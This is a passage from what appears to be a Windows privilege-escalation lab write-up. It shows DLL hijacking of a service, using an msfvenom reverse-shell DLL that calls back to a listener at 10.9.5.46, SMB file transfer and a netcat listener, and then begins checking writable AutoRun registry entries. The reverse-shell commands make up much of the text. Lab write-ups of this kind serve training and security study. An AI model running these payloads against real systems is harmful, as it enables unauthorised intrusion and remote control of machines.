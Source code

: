 as u can see the process cant find the hijackme dll and one of the folder it look at is where we have write permission

lets generate our reverse.dll

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.9.5.46 lport=53 -f dll -o hijackme.dll
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
> copy \\10.9.5.46\kali\hijackme.dll C:\temp\hijackme.dll
$ nc -lvnp 53
> net start dllsvc
```

# Registry
## AutoRuns

from winpeas output in AutoRuns output we can see there is program everyone has access to

![autorun](image-9.png)

we can Query the registry for AutoRun executables
```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and check if we have write permission

```bash
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```
![accesccchk](image-10.png)
